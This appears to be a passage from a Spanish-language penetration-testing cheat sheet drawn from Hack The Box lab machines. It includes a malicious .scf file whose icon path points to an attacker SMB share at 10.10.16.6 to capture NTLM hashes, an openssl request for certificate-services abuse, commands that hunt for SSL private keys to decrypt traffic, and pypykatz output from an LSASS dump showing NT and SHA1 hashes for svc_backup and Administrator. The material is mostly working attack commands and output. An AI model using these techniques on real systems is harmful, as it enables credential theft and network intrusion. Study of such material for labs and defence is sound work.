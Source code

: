 ```
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

## Microsoft Active Directory Certificate Services

### Generar certificados

```
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

## Tráfico de Red

### Obtener clave SSL para importar en WireShark

```
hflaccus@carpediem:/$ find \-name \*key 2>/dev/null | grep backdrop
./etc/ssl/certs/backdrop.carpediem.htb.key
```

```
hflaccus@carpediem:/etc/ssl/certs$ ls | grep backdrop
backdrop.carpediem.htb.crt
backdrop.carpediem.htb.key
```

## Desencriptar LSASS

```
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
    == MSV ==
        Username: svc_backup
        Domain: BLACKFIELD
        LM: NA
        NT: 9658d1d1dcd9250115e2205d9f48400d
        SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
    == MSV ==
        Username: Administrator
        Domain: BLACKFIELD
        LM: NA
        NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
        SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```
